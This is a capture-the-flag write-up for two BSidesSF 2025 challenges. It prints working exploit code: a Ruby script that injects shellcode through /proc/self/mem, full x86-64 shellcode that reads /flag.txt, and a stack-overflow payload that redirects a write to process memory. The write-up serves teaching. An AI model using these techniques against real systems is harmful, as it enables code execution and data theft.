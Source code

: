 ```yaml
---
title: 'BSidesSF 2025: accan and drago-daction: pwn your own memory'
author: ron
layout: post
categories:
- bsidessf-2025
- ctfs
permalink: "/2025/bsidessf-2025-accan-and-drago-daction-pwn-your-own-memory"
date: '2025-04-27T15:59:10-07:00'

---
```


If you read [my `bug-me` write-up](/2025/bsidessf-2025-bug-me-hard-reversing-challenge-) or my [Linux process injection](https://www.labs.greynoise.io/grimoire/2025-01-28-process-injection/) blog, you may be under the impression that I've been obsessed with the ability of Linux processes to write to their own memory.

These challenges are no exception!

You can download source and the challenge (including solutions) [here (acaan)](https://github.com/BSidesSF/ctf-2025-release/tree/main/acaan) and [here (drago-daction)](https://github.com/BSidesSF/ctf-2025-release/tree/main/drago-daction).

<!--more-->

## acaan

I actually wrote `drago-daction` first, but decided I wanted a more training-wheels-y version of it so I wrote `acaan`, which is much more direct.

For what it's worth, `acaan` stands for "any card at any number", which is a plot in magic (card tricks). Volunteer names any card, and any number (between 1 and 52), and lo and behold! The card is at that number. And the audience is amazed - once you explain that it's a Big Deal.

When you connect to `acaan`, it prompts you for a file, and offset, and new data to write. Then it does what it says - it writes that data to that offset in that file:

```
$ nc acaan-d715d4a7.challenges.bsidessf.net 4113
Welcome to ACAAN (Any Computerfile At Any Number)!
Filename?
/etc/passwd
Offset into the file (either decimal, or 0xhex)?
10
Data to replace it with? (Binary is fine - end with "\n.\n" or by closing the socket)
hello
.
Replacing 5 bytes from file /etc/passwd at offset 10! Hope this is everything you were hoping for!
Couldn't open /etc/passwd!
```

I also provided the source so you can see there are no tricks - it's exactly what it sounds like.

The challenge is solved by writing to read-only memory by editing `/proc/self/mem`, my technique du jour:

```
s = TCPSocket.new(HOST, PORT)
puts s.readpartial(1024)
s.puts('/proc/self/mem')
sleep(0.5)
puts s.readpartial(1024)
s.puts(TARGET_ADDRESS.to_i)
sleep(0.5)
puts s.readpartial(1024)
s.puts(File.read(File.join(__dir__, 'shellcode.bin')))
s.puts('.')
s.puts('.')
sleep(0.5)
check_flag(s.read(1024), terminate: true, partial: true)
```

The shellcode is pretty standard `open` / `read` / `write`, written by ai and then fixed to actually work:

```
bits 64
; Open the file
jmp filename
top:
  pop rdi
  xor rsi, rsi             ; Flags = 0 (O_RDONLY)
  xor rdx, rdx             ; Mode = 0
  mov rax, 2               ; Syscall for open
  syscall
  mov rdi, rax

  ; Read from the file
  sub rsp, 0x100           ; Allocate space on the stack for the buffer
  lea rsi, [rsp]           ; Load the buffer address into rsi
  mov rdx, 0x100           ; Read up to 256 bytes
  mov rax, 0               ; Syscall for read
  syscall

  ; Write to stdout
  mov rdi, 1               ; Set fd to stdout
  mov rdx, rax             ; Set the number of bytes to write
  mov rax, 1               ; Syscall for write
  syscall

  ; Exit
  xor rdi, rdi             ; Exit code 0
  mov rax, 60              ; Syscall for exit
  syscall
filename:
  call top
  db "/flag.txt", 0        ; Null-terminated filename
```

## `drago-daction`

Yes, I know that `draco-daction` would have been a better name! I changed the name once and didn't want to change it again. :)

Although this has a similar payoff to `acaan`, the path there is much different: this application is vulnerable to a stack buffer overflow which lets you change the filename and offset.

The premise of the challenge is redacting information. The first time it redacts a string, you can overwrite the stack data. The second time, it opens the wrong file and writes to the wrong offset. Once you've reached that point, you're back to `acaan`, only much more annoying.

### Solution

First, we create a file with two replaceable strings:

```ruby
# Create the dragonfile
file = File.new('/tmp/dragonfile.txt', 'w')

# This requires two lines: one to overwrite the pointers, and one to write to
# memory
file.puts("dragon#{ 'B' * 100 }")
file.puts("dragon#{ 'B' * 100 }")
file.close
```

Then we create our payload, which replaces "dragon" with the payload, which includes an overflow:

```ruby
SHELLCODE = File.read(shellcode_file.to_path).force_encoding('ASCII-8bit').ljust(PADDING, 'A')

# ...

payload = [
  "dragon\n",
  "#{ SHELLCODE }#{ TARGET_ADDRESS_STR }/proc/self/mem\0\n",
].join()
```

We replace some random code at the end of the binary with our shellcode:

```
# Find a good place to target - we're choosing this line:
# 401751:       e8 2a f9 ff ff          call   401080 <__stack_chk_fail@plt>
unless `objdump -D #{ EXE } | grep 'call.*__stack_chk_fail@plt' | tail -n1` =~ /^ *([0-9a-fA-F]*)/
  puts "Couldn't find __stack_chk_fail call!"
  exit 1
end
TARGET_ADDRESS = Regexp.last_match(1).to_i(16)
TARGET_ADDRESS_STR = [TARGET_ADDRESS - ADJUST].pack('V')
```

And that's it!

Honestly, it was a bit of a pain to solve, hopefully folks enjoy it!

